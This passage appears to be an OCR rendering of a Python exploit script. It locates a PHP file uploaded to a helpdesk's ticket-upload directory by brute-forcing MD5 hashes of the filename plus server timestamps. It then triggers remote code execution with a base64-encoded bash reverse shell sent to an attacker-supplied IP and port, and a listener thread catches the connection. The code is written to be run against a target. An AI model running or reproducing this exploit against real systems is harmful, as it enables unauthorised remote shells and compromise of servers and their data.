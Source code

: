 ```py
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    url = 'http://' + rhost
    b = r.get(url)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    
# Now Let's iterate to see if we can get it there and execute
def getArchive(filename,rhost,currentTime):
    for x in range(0, 300):
        plaintext = filename + str(currentTime - x)
        md5hash = hashlib.md5(plaintext.encode()).hexdigest()
        global url_reverse
        url_reverse = 'http://' + rhost + '/support/uploads/tickets/' + md5hash + '.php'
        response = requests.head(url_reverse,proxies=proxies)
        if response.status_code == 200:
            print("[+] The php was FOUND! Let's GET RCE [+]")
            break

# Once we find the correct file, we need to get a reverse shell on the box with the simple cmd
def getRevShell(localip,lport,url_reverse):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(localip,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    r.get(url_reverse, params=payload_str, proxies=proxies, cookies=r.cookies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='Filename you just Uploaded', required=True)
    parser.add_argument('-lport', '--localport', help='Local port to receive the connection', required=True)
    parser.add_argument('-lip', '--localip', help='Local IP to receive the connection', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    filename = args.file
    lport = args.localport
    localip = args.localip
    '''Here we call the functions'''
    # Start the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's get the currenttime
    getCurrentTime(rhost)
    # Now, let's get the uploaded php
    getArchive(filename,rhost,currentTime)
    # Trigger the reverse shell
```